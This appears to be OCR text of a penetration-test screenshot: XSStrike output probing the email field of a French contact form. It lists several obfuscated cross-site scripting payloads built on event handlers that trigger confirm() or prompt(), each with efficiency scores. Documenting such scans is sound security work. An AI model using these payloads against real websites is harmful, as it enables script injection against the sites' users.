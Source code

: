  Progress: 49/49
 

### Test 2: Formulaire de Contact 

	XSStrike v3.1.5

 Checking for DOM vulnerabilities 
 WAF Status: Offline 
 Testing parameter: contact[votre_email] 
 Reflections found: 2 
 Analysing reflections 
 Generating payloads 
 Payloads generated: 1536 
 Progress: 1/1536
 
------------------------------------------------------------
 Payload: <a%09onpOinTeReNter+=+confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 2/1536
 
------------------------------------------------------------
 Payload: <hTmL/+/onMoUSeOVER%0a=%0a(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 3/1536
 
------------------------------------------------------------
 Payload: <deTaIls%0aONpoInTERentEr+=+(confirm)()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 4/1536
 
------------------------------------------------------------
 Payload: <Html%0doNMOuseovEr+=+(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 5/1536
 
 Progress: 6/1536
 
 Progress: 7/1536
 
------------------------------------------------------------
 Payload: <dETaIls%0aonpoiNteReNter%09=%09a=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 8/1536
 
------------------------------------------------------------
 Payload: <DETails%0dONpoiNTEreNTEr%0a=%0aconfirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 9/1536
 